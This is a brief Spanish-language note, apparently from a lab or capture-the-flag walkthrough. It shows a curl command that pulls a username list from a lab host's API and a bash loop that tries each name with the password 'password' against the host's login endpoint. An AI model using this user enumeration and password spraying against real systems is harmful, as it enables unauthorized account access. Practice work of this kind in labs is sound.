

Con este comando lo bajamos quitamos los caraecteres especiales creamos una lista par usarla para brute-force
curl http://192.168.120.127/api/users | jq '.[]' -r > users.txt

Tambien podemo usar un curl command para ver que combinacion de user y pass funcionan en una pagina
for user in $(cat users.txt); do curl 'http://192.168.120.127/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done